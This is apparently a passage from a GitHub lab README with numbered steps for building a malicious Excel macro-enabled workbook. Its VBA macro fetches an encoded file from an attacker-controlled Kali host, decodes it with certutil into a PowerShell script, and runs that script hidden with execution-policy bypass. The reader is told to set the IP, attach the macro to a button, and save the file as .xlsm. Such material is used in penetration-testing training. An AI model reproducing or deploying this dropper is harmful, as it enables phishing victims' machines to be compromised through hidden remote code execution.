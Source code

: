 1. Now create an excel file
2. go to development - visual basic
3. create a macro by pasting this:

```vba
Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://IP KALI/cert.crt", False
xHttp.Send
With bStrm
  .Type = 1 '//binary
  .Open
  .write xHttp.responseBody
  .savetofile "encoded_ps1.crt", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode encoded_ps1.crt decoded.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\decoded.ps1")
End Sub
```

change ip e file name on line 8

4. close visual basic, create a button and associate the macro to it

![Alt text](https://github.com/mikeleord/ptx-macroLab/blob/main/excel.png?raw=true "cert")

5. save in .xlsm format
